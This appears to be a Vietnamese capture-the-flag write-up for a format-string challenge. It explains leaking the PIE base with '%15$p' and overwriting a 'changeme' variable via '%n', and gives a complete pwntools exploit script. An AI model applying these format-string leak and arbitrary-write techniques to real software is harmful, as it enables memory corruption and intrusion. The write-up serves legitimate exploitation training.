






# 1. Find Bug :



- Lỗi format string ở hàm `printf`

# 2. Idea :



- `checksec` thấy PIE bật -> Dùng format string leak binary base

# 3. Exploit :



- Check stack ta thấy để leak binary -> vị trí thứ 15

```
s(b'%15$p')
binary_leak = int(p.recvline()[:-1], 16)
binary_base = binary_leak - 0x1293
log.info("binary_leak :" + hex(binary_leak))
log.info("binary_base :" + hex(binary_base))
```
----------------------------------------------


- Từ binary leak -> binary base


----------------------------------------------
`changeme = binary_base + 0x401c`

- Tìm offset `changeme`

- Đã có `changeme` address -> cho địa chỉ này lên stack và sử dụng `%c` kết hợp `%n` để tạo padding và ghi 1337 vào `changeme` (chú ý payload gửi `p64(changeme)` ở cuối vì `printf` sẽ in đến khi gặp byte `null` mà địa chỉ thì luôn có byte null ở cuối -> nếu để ở đầu thì những phần ở sau sẽ bị coi như ko)

- Ta sẽ tính toán như sau payload chuẩn bị gửi sẽ có form : `s(f"%1337c%...$n".encode() + b'a' * ... + p64(changeme))`

- Ở phần đầu có đã có 10 - 11 byte -> sẽ cần 5 - 6 byte a để căn chỉnh stack -> `changeme` address sẽ ở % thứ 8, vậy payload đầy đủ sẽ là `s(f"%1337c%8$n".encode() + b'a' * 6 + p64(changeme))`

## SCRIPT :

```
#!/usr/bin/python3

from pwn import *

exe = ELF("./fsb_overwrite_patched")
libc = ELF("./libc.so.6")
context.binary = exe

s   = lambda data: p.send(data)
sa  = lambda msg, data: p.sendafter(msg, data)
sl  = lambda data: p.sendline(data)
sla = lambda msg, data: p.sendlineafter(msg, data)
sn  = lambda num: p.send(str(num).encode())
sna = lambda msg, num: p.sendafter(msg, str(num).encode())
sln = lambda num: p.sendline(str(num).encode())
slna = lambda msg, num: p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b*main+59
        c
        ''')
        input()


if args.REMOTE:
    p = remote('')
else:
    p = process([exe.path])
GDB()

s(b'%15$p')
binary_leak = int(p.recvline()[:-1], 16)
binary_base = binary_leak - 0x1293
log.info("binary_leak :" + hex(binary_leak))
log.info("binary_base :" + hex(binary_base))

changeme = binary_base + 0x401c

s(f"%1337c%8$n".encode() + b'a' * 6 + p64(changeme))

p.interactive()
```

# 4. Get Flag :




